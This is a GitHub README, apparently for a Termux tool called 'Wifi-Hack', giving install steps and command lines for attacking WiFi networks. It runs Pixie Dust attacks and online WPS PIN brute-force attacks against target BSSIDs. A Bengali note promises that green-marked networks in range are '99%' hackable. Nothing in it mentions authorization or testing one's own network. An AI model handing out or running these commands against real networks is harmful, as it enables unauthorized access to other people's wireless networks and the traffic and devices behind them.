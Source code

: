 ## Wifi-Hack
### Hack WIfi Using Termux! (Need Rooted Device )

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install :

```bash
$ pkg update && pkg upgrade
```
```
$ pkg install git python
```
$ apt update && apt upgrade
$ pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && termux-setup-storage
$ git clone https://github.com/tanvirhasan999/Wifi-Hack
$ cd Wifi-Hack
$ chmod +x fück-wifi.py

Note: Now turn off Wifi 

$ sudo python fück-wifi.py -i wlan0 -K
```
### Note: আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
পরের বার Tool অপেন করতে 
```bash
$ sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K 
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
- # Thanks For Using My Tool

